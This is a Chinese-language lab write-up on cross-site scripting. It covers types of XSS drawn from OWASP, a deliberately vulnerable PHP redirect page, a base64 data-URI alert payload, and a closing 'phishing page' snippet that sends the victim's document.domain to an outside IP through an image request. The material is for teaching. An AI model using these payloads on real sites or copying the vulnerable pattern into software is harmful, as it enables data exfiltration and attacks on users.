

## 实验目的

- 搭建漏洞网页
- xss攻击实现
  - Stored XSS
  - Reflected XSS

<center></center>

<!--more-->

## 实验环境

- wsl
  - ubuntu18.04

## 实验原理

### stored xss(AKA Persistent or Type I)

> Stored XSS一般发生在用户输入的数据被存储在目标服务器上的时候，比如数据库中、留言论坛中、访问者日志、评论字段等。然后受害者能够从Web应用程序中检索存储的数据，而不使这些数据在浏览器中安全地呈现。随着HTML5和其他浏览器技术的出现，我们可以设想攻击的有效载荷被永久存储在受害者的浏览器中，例如HTML5数据库，而永远不会被发送到服务器

### Reflected XSS (AKA Non-Persistent or Type II)

> 反射式XSS的发生是当用户的输入被Web应用程序立即返回错误消息、搜索结果或任何其他响应，其中包括用户提供的部分或全部输入作为请求的一部分，而这些数据没有被安全地渲染在浏览器中，并且没有永久存储用户提供的数据。在某些情况下，用户提供的数据甚至可能从未离开过浏览器(请看接下来的基于DOM的XSS)

### DOM Based XSS (AKA Type-0)

> 基于DOM的XSS是一种XSS的形式，其中从源到汇的整个污染数据流都发生在浏览器中，即数据的源在DOM中，汇也在DOM中，而且数据流从未离开过浏览器。例如，源头(读取恶意数据的地方)可以是页面的URL(如document.location.href)，也可以是HTML中的一个元素，而汇点则是一个敏感的方法调用，导致恶意数据的执行(如document.write)
> 
> DOM Based XSS is a form of XSS where the entire tainted data flow from source to sink takes place in the browser, i.e., the source of the data is in the DOM, the sink is also in the DOM, and the data flow never leaves the browser. For example, the source (where malicious data is read) could be the URL of the page (e.g., document.location.href), or it could be an element of the HTML, and the sink is a sensitive method call that causes the execution of the malicious data (e.g., document.write).

### client/server xss

> 多年来，大多数人认为这些（Stored、Reflected、DOM）是三种不同类型的XSS，**但实际上，它们是重叠的**。你可以同时拥有基于DOM的Stored和Reflected的XSS。你也可以有基于DOM的存储和反射的非DOM的XSS，但这很混乱，所以为了帮助澄清事情，从2012年年中开始，研究社区提出并开始使用两个新术语来帮助组织可能发生的XSS类型。   
> - 服务器XSS 
> - 客户端XSS

#### Server XSS

> 当不受信任的用户提供的数据被包含在服务器生成的HTML响应中时，服务器XSS就会发生。这些数据的来源可能是来自请求，或来自存储位置。因此，你可以同时拥有反射式服务器XSS和存储式服务器XSS.在这种情况下，整个漏洞都在服务器端代码中，浏览器只是简单地渲染响应并执行其中嵌入的任何有效脚本。

#### Client XSS

> Client XSS occurs when untrusted user supplied data is used to update the DOM with an unsafe JavaScript call. A JavaScript call is considered unsafe if it can be used to introduce valid JavaScript into the DOM.

## 实验内容

### 服务器xss

```php
<?php
header('Location: '.$_GET['x']);
?>
```
- 输入x的值作为响应头部的`Location`字段值输出
- 恶意代码：`?x=data:text/html;base64,PHNjcmlwdD5hbGVydChkb2N1bWVudC5VUkwpPC9zY3JpcHQ+Cg==`
```sh
➜  base=$(base64  <<< "<script>alert(document.URL)</script>" )
➜  echo "$base"
PHNjcmlwdD5hbGVydChkb2N1bWVudC5VUkwpPC9zY3JpcHQ+Cg==
➜  
```
- 结果：弹框

### 客户端xss

- 典型：DOM XSS
  > DOM型XSS代码不需要服务器解释响应的直接参与，触发XSS只需要浏览器的DOM解析，完全是客户端的问题！！
- 恶意代码
  ```javascript
  var c=encodeURI(document.getElementById("xss").value);
  ```
- 结果：弹框

## xss payload

构造一个植入恶意代码的钓鱼网页,让受害者访问（会看到一个空图片）

```js
const img=document.createElement('img')
img.src='http://192.168.50.129/'+escape(document.domain)
document.body.appendChild(img)
```


## 参考

- [Types of XSS | OWASP](https://owasp.org/www-community/Types_of_Cross-Site_Scripting)
- [【前端黑客】XSS入门 - 知乎](https://zhuanlan.zhihu.com/p/37455061)